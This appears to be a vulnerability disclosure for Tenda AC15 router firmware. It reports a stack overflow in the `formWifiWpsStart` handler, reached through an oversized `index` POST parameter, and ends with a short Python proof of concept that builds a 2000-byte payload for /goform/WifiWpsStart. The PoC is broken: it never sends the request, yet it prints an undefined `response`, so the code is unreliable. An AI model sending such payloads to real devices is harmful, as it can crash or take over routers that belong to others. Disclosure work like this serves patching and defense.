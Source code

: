 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `formWifiWpsStart` function. The `nptr` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `index` can trigger this security vulnerability.

![image-20240314181333792](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314181333792.png)

![image-20240314222832798](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314222832798.png)

![image-20240314181310033](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314181310033.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsStart"
payload = b"a"*2000

data = {"index": payload}
print(response.text)
```

![image-20240314223131255](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314223131255.png)